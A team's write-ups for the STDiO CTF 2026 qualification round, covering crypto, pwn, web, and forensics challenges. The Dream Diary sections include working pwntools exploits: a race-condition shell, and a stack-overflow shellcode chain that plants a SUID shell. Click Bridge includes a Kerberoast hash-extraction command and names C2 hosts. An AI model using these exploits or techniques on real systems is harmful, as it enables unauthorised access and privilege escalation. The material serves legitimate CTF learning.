Write-ups of noonomyen in STDiO CTF 2026 Qualification round

# Challenges

- **Fragments of the Dark Lord**
- **Sanity Check**
- **The Dream Diary: Part 1**
- **The Dream Diary: Part 2 (Onirism)**
- **Yet another ez web challenge**
- **Click Bridge**
- **Last Word**
- **Neon Workshop**

# Fragments of the Dark Lord

## Solution

### Step 1: Tom Riddle's Diary



Follow hint: Hex > Base64 > Reverse > Binary > ROT13.

Fragment 1: `M3M0RY_0F_TH3_H31R`

### Step 2: Marvolo Gaunt's Ring



Fragment 2: `CURS3_0F_TH3_G4UNT`

### Step 3: Slytherin's Locket



Fragment 3: `S3CR3T_0F_S4L4Z4R`

### Step 4: Hufflepuff's Cup



Fragment 4: `V3SS3L_0F_H3LG4`

### Step 5: Ravenclaw's Diadem



Key is in challenge file: `RAVENCLAW`

Fragment 5: `W1SD0M_B3Y0ND_M34SUR3`

### Step 6: Nagini Voldemort's great serpent



Key is in challenge file: `BASILISK`

Fragment 6: `V3N0M_0F_TH3_D4RK_L0RD`

### Step 7: Harry Potter The seventh and final Horcrux



Key and fragment is in the source file.

Fragment 7: `N31TH3R_C4N_L1V3`

### Step 8: Collect all fragments to get encrypted flag





Look like encrypted data, so have once hint at the first fragment.



Where is the key?

After inspecting the web I found a comment on the page source.



Key: `VoldemortTheDarkLord`

However, AES keys use 16 bytes, after truncation it leaves: `VoldemortTheDark`

I don’t know IV, fill it with zero.



Flag is not full, try another mode.



ECB mode.

## Flag

`STDIO2026{be0e4599-cba1-4689-b78a-418b3b2d2aaa_[TEAMHASH]}`

# Sanity Check

## Solution



Nothing, just join the Discord server and check the box to get the flag.

## Flag

`STDIO2026{w31COMe_tO_Std1oCtf_zOzG_2326a034c633}`

# The Dream Diary: Part 1

## Solution

### Step 1: Recon



"A failed recovery can destabilize the observing operator." It will get something when recovery fails.



If still awake then get "Wake sequence rejected: unsafe dream activity."



But if you keep the first connection with SLEEP state and run WAKE in the second connection can it wake? So it confirmed the state is shared.

If the first connection SLEEP and DIVE and second connection run WAKE you will get "Wake sequence rejected: unsafe dream activity."

### Step 2: Hypothesis

So will it be possible to make race conditions?

- A: SLEEP
- B: WAKE and hold subject name input
- A: DIVE
- B: type enter



Yes it get shell (BusyBox)

### Step 3: Write exploit script

<details>
<summary><b>exploit.py</b></summary>

```python
from pwn import *
PORT = 1337

p1 = remote("127.0.0.1", PORT)
p1.recvuntil(b"wakeup> ")
p1.sendline(b"SLEEP")
p1.recvuntil(b"wakeup> ")

p2 = remote("127.0.0.1", PORT)
p2.recvuntil(b"wakeup> ")
p2.sendline(b"WAKE")
p2.recvuntil(b"Subject name: ")

p1.sendline(b"DIVE")
p1.recvuntil(b"wakeup> ")

p2.sendline(b"test")
p2.interactive()
```

</details>

### Step 4: Find the flag



You will get first flag at /home/user1/flag1

## Flag

`STDIO2026{63d8f2e1-2dbd-40a6-99c4-5f7d3451750e_[TEAMHASH]}`

# The Dream Diary: Part 2 (Onirism)

## Solution

### Step 1: Recon

Continuing from Part 1, now we have an exploit to get the shell of target and challenge have 3 parts, all flags are in /mnt/flags.

Have user2 in this machine.



Found file `onirism` is owned by user2.



And this elf file has SUID/SGID, will privilege escalate to user2?



Steal from a machine with base64 encoding.

### Step 2: Binary analysis



No libc.

entry > FUN_0040104e > FUN_00401000



FUN_00401000 calling to FUN_00401110





FUN_00401110 reads data from STDIN

- EAX = 0 (system call read)

Buffer allocates 72 bytes, but reads 104 bytes, now this is stack overflow.

Other functions calling system calls

- FUN_00401120 - 0x1 write
- FUN_00401130 - 0x9d prctl
- FUN_00401140 - 0x13d seccomp
- FUN_00401150 - 0x3c exit

Gadgets

- 0x401160 - jmp rsp



### Step 3: Privilege escalation to user2

Idea, will exploit this binary with 2 stages.

Use stack overflow to overwrite the return address to controlling program flow.

First, create a custom shell, this elf will set UID=1002 and GID=1001 before exec /bin/sh.

- First stage - will read stage 2 payload from stdin
- Second stage - will set UID/GID to 1002 for copy custom shell (ush) to /tmp/xsh with set SUID
- Next time we can run /tmp/xsh will get shell of user2

<details>
<summary><b>exploit.py</b></summary>

```python
from pwn import *
import gzip

context.arch = "amd64"
PORT = 1337

ush_asm = """
    mov eax, 117
    mov edi, 1002
    mov esi, 1002
    mov edx, 1002
    syscall
    mov eax, 119
    mov edi, 1002
    mov esi, 1002
    mov edx, 1002
    syscall
    lea rdi, [rip+path]
    xor eax, eax
    push rax
    push rdi
    mov rsi, rsp
    xor edx, edx
    mov eax, 59
    syscall
    mov eax, 60
    xor edi, edi
    syscall
path: .asciz "/bin/sh"
"""

USH = b64e(gzip.compress(ELF.from_bytes(asm(ush_asm)).data)).encode()

stage1 = asm("""
    xor eax, eax
    xor edi, edi
    sub rsp, 0x300
    mov rsi, rsp
    mov edx, 0x300
    syscall
    jmp rsp
""")

stage2 = asm("""
    mov eax, 117
    mov edi, 1002
    mov esi, 1002
    mov edx, 1002
    syscall
    mov eax, 119
    mov edi, 1002
    mov esi, 1002
    mov edx, 1002
    syscall
    lea rdi, [rip+sh]
    lea rbx, [rip+cmd]
    lea rcx, [rip+dashc]
    xor eax, eax
    push rax
    push rbx
    push rcx
    push rdi
    mov rsi, rsp
    xor edx, edx
    mov eax, 59
    syscall
sh: .asciz "/bin/sh"
dashc: .asciz "-c"
cmd: .asciz "cp /tmp/ush /tmp/xsh; chmod 4755 /tmp/xsh"
""")

p1 = (b"A" * 0x48 + p64(0x401160) + stage1).ljust(0x68, b"\x90")

# reset state
r = remote("127.0.0.1", PORT)
r.recvuntil(b"wakeup> "); r.sendline(b"SLEEP"); r.recvuntil(b"wakeup> ")
r.sendline(b"WAKE"); r.recvuntil(b"Subject name: "); r.sendline(b"reset")
r.recvuntil(b"wakeup> "); r.sendline(b"QUIT"); r.close()

# race -> user1 shell
a = remote("127.0.0.1", PORT)
a.recvuntil(b"wakeup> "); a.sendline(b"SLEEP"); a.recvuntil(b"wakeup> ")
a.sendline(b"WAKE"); a.recvuntil(b"Subject name: ")

b = remote("127.0.0.1", PORT)
b.recvuntil(b"wakeup> "); b.sendline(b"DIVE"); b.recvuntil(b"wakeup> ")

a.sendline(b"test")
a.recvuntil(b"~ $ ")

# install setuid user2 helper
a.sendline(b"echo -n " + USH + b" | base64 -d | gunzip > /tmp/ush; chmod 755 /tmp/ush")
a.recvuntil(b"~ $ ")
a.sendline(b"echo " + b64e(p1).encode() + b" | base64 -d > /tmp/p1")
a.recvuntil(b"~ $ ")
a.sendline(b"echo " + b64e(stage2).encode() + b" | base64 -d > /tmp/p2")
a.recvuntil(b"~ $ ")
a.sendline(b"cat /tmp/p1 /tmp/p2 | /usr/local/bin/onirism")
a.recvuntil(b"~ $ ")

# user2 shell
a.sendline(b"/tmp/xsh")
a.interactive()
```

</details>

### Step 4: Exploit and get flag



## Flag

`STDIO2026{85d12c8cacf32f4b133f8e60eb77b870}`

# Yet another ez web challenge

## Solution

### Step 1: Analyze source code



Target of challenge is fetch flag from /api/flag, with role super_admin

So this code is normally, a new user will get a role user, admin user is random password.

How do you get role super_admin?

It looks like the admin can set a super_admin role for the user but not allow it.



Ok first we should get an admin account.

After reviewing the flow of code we found a middleware trust signed cookie.



So if you use cookie-parser middleware you will know about the `j` prefix string.



README of cookie-parser.





index.js

Example challenge in using this feat, here: [https://ctftime.org/writeup/34007](https://ctftime.org/writeup/34007)

Back to the challenge, now we know vul of this flow is some middleware trusted signedCookies and signed cookie will get from parsing cookie session.

So this web app stores `user` `role` in the client with a cookie, and trusts it by signing.

What if username is like this

```text
j:"admin"
```

The parser will parse it to

```text
admin
```

### Step 2: Create attack flow

Ok we know the target is cookie-parser.

- Client register with username like j:"admin"
- cookie-parser finds the `j:` prefix and replaces the cookie value with the JSON-parsed remainder. As a result, the user key becomes admin.
- Use refresh-cookie to clean `user` key from `j:"admin"` > `admin`
- User `admin` is hardcoded in runtime with `admin` role, after refreshing the setSession function will get the role of admin from objects to set in cookie.
- Now we are admin.

Back to promote api



Not allow admin set super_admin role, but `role` is stored in cookie session same as `user`, just use the same method.

### Step 3: Exploit

Set user as `j:"admin"`



After refresh cookie



Promote user `admin` as role `j:"super_admin"`



After refresh cookie



### Step 4: Get flag



## Flag

`STDIO2026{cdfca037-5fac-4198-a543-0ce207c8b3fb_[TEAMHASH]}`

# Click Bridge

## Solution

### Step 1: Question 1

What is the full URL of the page that initiated the attack? (Format: http://...)

The challenge asks for http.



Found some suspicious request, 192.168.61.147 get powershell script from 18.136.142.248.

So the first request of 2 endpoint is path /cdn/docs/verify.html

Answer: `http://18.136.142.248/cdn/docs/verify.html`

### Step 2: Question 2

What PowerShell script was downloaded and executed by the victim? Provide the full download URL. (Format: http://...)

Continue from question 1, at suspicious request.



Answer: `http://18.136.142.248/cdn/update.ps1`

### Step 3: Question 3

What technology is the threat actor using for command and control? (Format: product name in one word)

At response /cdn/update.ps1.



Answer: `MinIO`

### Step 4: Question 4

What is the C2 polling interval in seconds? (Format: number only)

At response /cdn/update.ps1.



Answer: `30`

### Step 5: Question 5

What additional tools were delivered to the workstation through the C2 channel? List filenames comma-separated in download order. (Format: file1,file2)

In WS-01.json is a task file (from commander).

Has a task to fetch health.exe from C2 server.



And diag.exe







Answer: `health.exe,diag.exe`

### Step 6: Question 6

What is the C2 task ID that led the threat actor to discover the password manager database file? (Format: task ID only, e.g. 001)

At task id 002, is command to list directory and found keepass password database and note file.





Answer: `002`

### Step 7: Question 7

What files were exfiltrated before the tunnel was established? Provide filenames comma-separated. (Format: file1,file2)

Follow the `upload` path.

corp.kdbx



20260730063148_BloodHound.zip



Answer: `corp.kdbx,20260730063148_BloodHound.zip`

### Step 8: Question 8

What is the master password of the exfiltrated password manager database file? (Format: plaintext password)

Continue file corp.kdbx found in question 7, and export it.

So this pcap file doesn't have the password of this database file, try brute-force with john.



Found with rockyou wordlist.

Answer: `butterfly1`

### Step 9: Question 9

What tunneling tool was deployed, and what port does it connect to? (Format: toolname:port)

Found diag.exe executed with flag -connect.

Port 11601 is like ligolo-ng.



For confirmation export diag.exe to check, this file is golang and the module list with go tool will find the module of ligolo-ng.



Answer: `ligolo-ng:11601`

### Step 10: Question 10

What staging files did the attacker delete during cleanup? List filenames comma-separated in the order they appear in the command. (Format: file1,file2,...)

At task id 009 have command to delete 2 files, health.exe and all *BloodHound.zip.



At task 006c is command to list Downloads directory is and found 20260730063148_BloodHound.zip.



Answer: `health.exe,20260730063148_BloodHound.zip`

### Step 11: Question 11

What account was used to authenticate to the Domain Controller after the tunnel was established? (Format: username only)

Domain controller, focus to LDAP and ligolo-ng is started at time 1089 sec.



Filter with ldap and focus packet after 1089 sec.



User name: helpdesk.svc

Answer: `helpdesk.svc`

### Step 12: Question 12

List all service accounts targeted in the Kerberoasting attack, comma-separated. (Format: DOMAIN\\account1,DOMAIN\\account2,...)

After auth with user helpdesk.svc. Filter to kerberos.

WOWZA.LOCAL\svc_backup



WOWZA.LOCAL\svc_sqlreport



WOWZA.LOCAL\svc_websync



Answer: `WOWZA.LOCAL\\svc_backup,WOWZA.LOCAL\\svc_sqlreport,WOWZA.LOCAL\\svc_websync`

### Step 13: Question 13

Which service account's password was cracked, and what is the password? (Format: username:password)



Try to brute-force with john, Extract cipher from packet to create hash file.

```bash
tshark -r ClickBridge.pcapng \
    -Y 'frame.number==156949' \
    -T fields -E separator='|' \
    -e kerberos.SNameString \
    -e kerberos.encryptedTicketData_cipher \
  | awk -F'|' '{
    c=$2
    printf "$krb5tgs$23$*helpdesk.svc$WOWZA.LOCAL$%s*$%s$%s\n", \
      $1, substr(c,1,32), substr(c,33)
  }' > tgs.hash
```



Password: trustno1

Found with rockyou wordlist.

Answer: `svc_backup:trustno1`

### Step 14: Question 14

What SMB share was accessed on the Domain Controller? (Format: \\IP\sharename)

SMB, this is encrypted but we have a user:pass of this session, so we are using AI to create a tool for decrypting packets.



<details>
<summary><b>decrypt_smb.py</b></summary>

```python
#!/usr/bin/env python3
"""Decrypt the SMB 3.1.1 session used by the ClickBridge attack."""

from __future__ import annotations

import argparse
import hashlib
import hmac
import re
import struct
import subprocess
from dataclasses import dataclass
from pathlib import Path

from Crypto.Cipher import AES, ARC4
from Crypto.Hash import MD4

@dataclass(frozen=True)
class Record:
    frame: int
    source: str
    payload: bytes

def parse_arguments() -> argparse.Namespace:
    parser = argparse.ArgumentParser(
        description="Decrypt SMB 3.1.1 transform packets from ClickBridge."
    )
    parser.add_argument("pcap", type=Path, help="Path to the PCAPNG file")
    parser.add_argument("--stream", type=int, default=1010, help="SMB TCP stream")
    parser.add_argument("--client", default="192.168.61.147", help="SMB client IP")
    parser.add_argument("--username", default="svc_backup", help="NTLM username")
    parser.add_argument("--domain", default="WOWZA", help="NTLM domain")
    parser.add_argument("--password", default="trustno1", help="NTLM password")
    return parser.parse_args()

def load_records(pcap: Path, stream: int) -> list[Record]:
    command = [
        "tshark",
        "-r",
        str(pcap),
        "-Y",
        f"tcp.stream == {stream} && tcp.payload",
        "-T",
        "fields",
        "-E",
        "separator=|",
        "-e",
        "frame.number",
        "-e",
        "ip.src",
        "-e",
        "tcp.payload",
    ]
    result = subprocess.run(command, check=True, capture_output=True, text=True)
    records = []

    for line in result.stdout.splitlines():
        frame, source, payload_hex = line.split("|", maxsplit=2)
        payload = bytes.fromhex(payload_hex)

        if len(payload) < 4:
            continue

        records.append(Record(int(frame), source, payload[4:]))

    if not records:
        raise ValueError("No TCP payloads found for the requested stream.")

    return records

def derive_session_key(
    records: list[Record], username: str, domain: str, password: str
) -> bytes:
    auth_packet = next(
        record.payload[record.payload.index(b"NTLMSSP") :]
        for record in records
        if b"NTLMSSP\x00\x03" in record.payload
    )

    nt_length, _, nt_offset = struct.unpack_from("<HHI", auth_packet, 20)
    key_length, _, key_offset = struct.unpack_from("<HHI", auth_packet, 52)
    nt_proof = auth_packet[nt_offset : nt_offset + nt_length][:16]
    encrypted_session_key = auth_packet[key_offset : key_offset + key_length]

    nt_hash = MD4.new(password.encode("utf-16le")).digest()
    ntlm_v2_hash = hmac.new(
        nt_hash,
        f"{username.upper()}{domain}".encode("utf-16le"),
        hashlib.md5,
    ).digest()
    session_base_key = hmac.new(ntlm_v2_hash, nt_proof, hashlib.md5).digest()

    return ARC4.new(session_base_key).decrypt(encrypted_session_key)

def derive_smb_keys(records: list[Record], session_key: bytes) -> tuple[bytes, bytes]:
    smb2_packets = [record.payload for record in records if record.payload.startswith(b"\xfeSMB")]

    if len(smb2_packets) < 6:
        raise ValueError("Expected SMB negotiate and session setup packets were not found.")

    preauth_hash = b"\x00" * 64

    # The first SMB2 packet is the SMB1-to-SMB2 negotiation response. The
    # pre-authentication chain for this session starts at the next request.
    for packet in smb2_packets[1:6]:
        preauth_hash = hashlib.sha512(preauth_hash + packet).digest()

    def derive(label: bytes) -> bytes:
        material = (
            b"\x00\x00\x00\x01"
            + label
            + b"\x00"
            + preauth_hash
            + b"\x00\x00\x00\x80"
        )
        return hmac.new(session_key, material, hashlib.sha256).digest()[:16]

    return derive(b"SMBC2SCipherKey\x00"), derive(b"SMBS2CCipherKey\x00")

def decrypt_packets(records: list[Record], client_ip: str, client_key: bytes, server_key: bytes) -> None:
    for record in records:
        packet = record.payload

        if not packet.startswith(b"\xfdSMB"):
            continue

        key = client_key if record.source == client_ip else server_key
        nonce = packet[20:31]
        ciphertext = packet[52:]
        plaintext = AES.new(key, AES.MODE_CCM, nonce=nonce, mac_len=16).decrypt(ciphertext)

        if not plaintext.startswith(b"\xfeSMB"):
            continue

        strings = [
            match.group().decode("utf-16le")
            for match in re.finditer(rb"(?:[\x20-\x7e]\x00){4,}", plaintext)
        ]
        print(f"Frame {record.frame}")
        print(f"SMB2 plaintext: {plaintext.hex()}")

        if strings:
            print("UTF-16LE strings:")
            for value in strings:
                print(f"  {value}")

        print()

def main() -> None:
    arguments = parse_arguments()
    records = load_records(arguments.pcap, arguments.stream)
    session_key = derive_session_key(
        records,
        arguments.username,
        arguments.domain,
        arguments.password,
    )
    client_key, server_key = derive_smb_keys(records, session_key)
    decrypt_packets(records, arguments.client, client_key, server_key)

if __name__ == "__main__":
    main()
```

</details>



Answer: `\\192.168.61.149\backups$`

### Step 15: Question 15

What files were exfiltrated from the share? Provide filenames comma-separated. (Format: file1,file2)

In the same session, use the tool from question 14, which has 2 files.



Answer: `ServiceAccounts.csv,HR_Leavers_2026.csv`

### Step 16: Get flag



## Flag

`STDIO2026{e5264c2c-6771-4807-b8d6-4a7ede678a17_[TEAMHASH]}`

# Last Word

## Solution

### Step 1: Question 1

From the provided challenge files, which software produced this artifact?


Name of challenge directory, `MSTeams`

Answer: `Microsoft Teams`

### Step 2: Question 2

To recover the chat conversation history from the files you have, which file should you examine?

Microsoft team stores conversation in IndexedDB.



Answer: `https_teams.live.com_0.indexeddb.leveldb`

### Step 3: Question 3

After analyzing that file and finding evidence of the chat, what company is mentioned as the creator of QRQR?

[https://github.com/google/dfindexeddb](https://github.com/google/dfindexeddb) tool for parsing indexeddb / leveldb





Understand record format and write script to dump conversation.

<details>
<summary><b>dump_teams.py</b></summary>

```python
import json

data = [json.loads(line) for line in open("work2/teams.jsonl") if line.strip()]
r = []

for x in data:
    try:
        mm = x["value"]["value"]["messageMap"]
    except:
        continue
    for msg in mm.values():
        r.append([
            msg.get("originalArrivalTime") or 0,
            msg.get("sequenceId") or 0,
            msg.get("creator"),
            msg.get("content"),
        ])

r.sort(key=lambda m: (m[0], m[1]))
seen = set()
for t, seq, creator, content in r:
    key = content
    if key in seen:
        continue
    seen.add(key)
    print(creator, content)
```

</details>



QRQR by Denso.

Answer: `Denso`

### Step 4: Question 4

The two people were exchanging a hidden coded message. What is the secret message?



Conversation has `#` and `.`

Try to filter messages.

```python
# ...
for t, seq, creator, content in r:
    # ...
    if "#" in content and "." in content and " " not in content:
        print(content.replace("<p>", "").replace("</p>", ""))
```

33x33 ascii looks like QR Code.



Convert it back to QR code.

<details>
<summary><b>solve_qr.py</b></summary>

```python
from PIL import Image

grid = [l.strip() for l in open("data.txt") if l.strip()]
s, q = 10, 4
w = len(grid[0])
img = Image.new("1", ((w + 2*q) * s, (w + 2*q) * s), 1)
px = img.load()
for y, row in enumerate(grid):
    for x, ch in enumerate(row):
        if ch == "#":
            for dy in range(s):
                for dx in range(s):
                    px[(x + q) * s + dx, (y + q) * s + dy] = 0
img.save("qr.png")
```

</details>

Decode it.



Answer: `STDIOCTF2026{I_kn0w_wh4t_y0u_t4lking_e4ch_0th3r}`

### Step 5: Get flag



## Flag

`STDIO2026{7046369f-3389-4dc1-8ec4-f51c8ce84c4d_[TEAMHASH]}`

# Neon Workshop

## Solution

### Step 1: Scan

Found SampleMyUGCMecchaCModKit_Load-Windows_P.pak contains some suspicious file names, It is a package of UnrealEngine.



### Step 2: Unpack

This file can be unpacked with [https://github.com/trumank/repak](https://github.com/trumank/repak) tool.



This script will stream output from C2 to console only, but the victim can’t see output from this script because -w hidden flag.

### Step 3: Answer the question Q1, Q2

[Q1] What is the filename of the malicious script contained in this workshop map? Answer format - file.exe

Answer: `s.bat`

[Q2] Once that map was executed, what C2 server and port were contacted? Answer format - C2_server:PORT

Answer: `sus.mirthz.xyz:1337`

### Step 4: Answer the question Q3

Challenge requires me to connect to port 6767 of C2 server



After connecting to port 6767 will get a secret string.

[Q3] Once you have identified the actor, retrieve the secret message from that C2 server on port 6767, So what is the secret message?

Answer: `M3cch4_Ch4m3l30n_1s_th3_b3st_1ndy_g4m3`

### Step 5: Get the flag



## Flag

`STDIO2026{2aa84886-92d3-4a3a-a09f-41cdf4e95425_[TEAMHASH]}`

Note: Solved before the dynamic flag was fixed.
